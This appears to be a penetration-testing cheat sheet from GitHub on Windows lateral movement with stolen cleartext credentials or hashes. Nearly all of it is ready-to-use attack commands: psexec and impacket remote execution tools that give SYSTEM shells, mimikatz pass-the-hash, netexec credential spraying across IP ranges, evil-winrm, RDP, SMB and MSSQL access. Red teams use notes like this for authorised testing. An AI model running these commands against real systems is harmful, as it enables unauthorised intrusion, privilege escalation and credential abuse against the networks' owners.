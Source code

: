 # Cleartext Password

## Tools: psexec.exe , impacket tools , mimikatz , crackmapexec/netexec , evil-winrm , xfreerdp , mssqlclient

# Interactive shell

#### 1) psexec.exe/impacket-psexec

    psexec.exe -AcceptEULA \\IP

    impacket-psexec DOMAIN/USER:PASSWORD@IP

## This grants NT Authority/System shell (System/Admin access)

#### 2) Mimikatz

    mimikatz "privilege::debug sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:HASH"

# Pseudo-shell (File write and read)

#### 1) crackmapexec/netexec

    netexec smb IP_RANGE -u USER -p PASSWORD -d DOMAIN

    netexec smb IP_RANGE -u USER -p PASSWORD --local-auth

#### 2) Impacket tools

    atexec.py DOMAIN/USER:PASSWORD@IP "COMMAND"

    smbexec.py DOMAIN/USER:PASSWORD@IP

## Note: These 2 techniques grant shell as the NT Authority/System user

    wmiexec.py DOMAIN/USER:PASSWORD@IP

    dcomexec.py DOMAIN/USER:PASSWORD@IP

### These techniques grant System/Admin access

# WinRM

    evil-winrm -i IP -u USER -p PASSWORD

# RDP

    xfreerdp /u:USER /d:DOMAIN /p:PASSWORD /v:IP

# SMB

    smbclient.py DOMAIN/USER:PASSWORD@IP (Search files)

# MSSQL

    mssqlclient.py -windows-auth DOMAIN/USER:PASSWORD@IP (MSSQL Pivot)
